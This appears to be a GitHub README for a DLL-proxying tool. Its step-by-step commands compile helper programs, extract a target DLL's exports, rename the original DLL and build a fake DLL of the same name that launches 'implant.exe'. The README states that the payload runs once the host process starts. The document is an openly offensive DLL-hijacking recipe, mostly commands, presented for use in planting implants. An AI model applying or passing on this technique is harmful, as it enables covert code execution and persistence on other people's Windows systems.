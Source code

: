 # Custom-DLL-Proxy 

This project provides a simple method to create a proxy DLL using three main files:

- **dll-extractor.cpp** : Lists all currently loaded DLLs in a running process.

- **function-extractor.cpp** : Extracts the exported functions from DLL.

- **maker.sh** : Adds the extracted functions into a template for creating a fake (proxy) DLL.

***Why I Built This DLL Proxy Tool***

I saw that many tools perform all the steps automatically, without giving the user any real control or ability to make changes along the way.
So I decided to build it myself.

# How to Use

**Step 1**  

Compile dll-extractor.cpp and function-extractor.cpp.
```bash
x86_64-w64-mingw32-g++ dll-extractor.cpp -o dll-extractor.exe
```
```bash
x86_64-w64-mingw32-g++ function-extractor.cpp -o function-extractor.exe -ldbghelp
```

**Step 2**  

Transfer the compiled files to a Windows system and run them there.
```cmd
dll-extractor.exe TARGET-PROCSS
```
```cmd
function-extractor.exe c:\PATH\example.dll
```
**Step 3**  

Copy the extracted function names to file.txt.  
> expample file.txt
 
![](img/img1.png)

renaming the target DLL(for example, by adding a letter like "1" or "2" to its name in target system).
```cmd
ren c:\PATH\example.dll c:\PATH\example1.dll
```

`-d`: the path to the same DLL that was renamed).
```bash
./maker.sh -d "c:\PATH\example1.dll" -o output.cpp -p "c:\PATH\implant.exe" file.txt
```


Note: If the DLL path contains spaces, make sure to wrap it in double quotes `" "`.

**Step 4**  

Compile output.cpp using the original name DLL `example.dll` and place it next to the original DLL.
```cmd
x86_64-w64-mingw32-g++ -shared -o example.dll output.cpp
```
After the process is launched,your payload will be executed.

---
**You can also move the original DLL to a different folder, but make sure to define its new path correctly inside maker.sh.**

